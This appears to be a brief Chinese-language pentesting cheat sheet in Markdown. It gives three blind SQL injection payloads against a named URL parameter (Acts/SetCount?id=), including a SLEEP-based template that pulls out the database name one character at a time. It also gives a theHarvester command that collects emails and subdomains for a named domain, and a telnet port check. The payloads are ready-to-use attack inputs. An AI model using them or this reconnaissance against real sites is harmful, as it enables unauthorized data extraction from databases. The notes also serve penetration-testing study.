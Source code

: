 ## sql注入
### 注入点    Acts/SetCount?id=63200
```sql
' AND (SELECT * FROM (SELECT(SLEEP(5)))RING) and 'RING'='RING
```

```sql
(SELECT * FROM (SELECT(SLEEP((ASCII(MID(LOWER(DATABASE())," + str(i) + ",1))=" + str(ord(_str)) + ")*5)))RING)
```

```sql
' and if((1=2),1,(select 1 union select 2))#
```

## 信息收集
### The harvester   搜索引擎查找邮箱及子域名
```Bash
./theHarvester.py -d wooyun.org -l 500 -b baidu -v 
```
> 语法：theharvester -d 域名|公司名 -b 搜索来源（google，bing，pgp，linkedin等） 
### 手工检测端口是否开放
```Bash
 telnet 127.0.0.1 21
```
